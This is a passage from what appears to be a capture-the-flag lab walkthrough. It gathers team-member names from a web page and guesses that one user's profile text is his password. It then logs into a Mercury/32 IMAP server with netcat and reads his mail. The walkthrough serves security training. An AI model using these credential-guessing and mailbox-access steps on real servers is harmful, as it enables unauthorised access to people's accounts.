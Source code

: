 ```
![San Francisco](team/martha.jpeg)

**Martha U.**

Writter
...
```

We will take note of the team members here for potential usernames. We can also see that Jonas' description seems out of the ordinary, which could be a password.

### Email Enumeration

Let's test this theory by attempting to log into the email server.

```
kali@kali:~$ nc 192.168.120.132 143
* OK localhost IMAP4rev1 Mercury/32 v4.62 server ready.

tag login jonas@localhost SicMundusCreatusEst
tag OK LOGIN completed.

tag LIST "" "*"
* LIST (\NoInferiors) "/" INBOX
tag OK LIST completed.

```

The username and credentials are correct, and we are able to list the emails. Let's continue the enumeration and try to read the emails.

```
tag SELECT INBOX
* 5 EXISTS
* 0 RECENT
* FLAGS (\Deleted \Draft \Seen \Answered)
* OK [UIDVALIDITY 1603187673] UID Validity
* OK [UIDNEXT 6] Predicted next UID
* OK [PERMANENTFLAGS (\Deleted \Draft \Seen \Answered)] Settable message flags
tag OK [READ-WRITE] SELECT completed.

tag STATUS INBOX (MESSAGES)
* STATUS INBOX (MESSAGES 5)
tag OK STATUS completed.

tag fetch 1 (BODY[1])
* 1 FETCH (BODY[1] {134}
Hey Jonas,

Please change your password, you cannot use the same password as your one liner description, just dont.

Thanks!
)
* 1 FETCH (FLAGS (\SEEN))
tag OK FETCH complete.
```
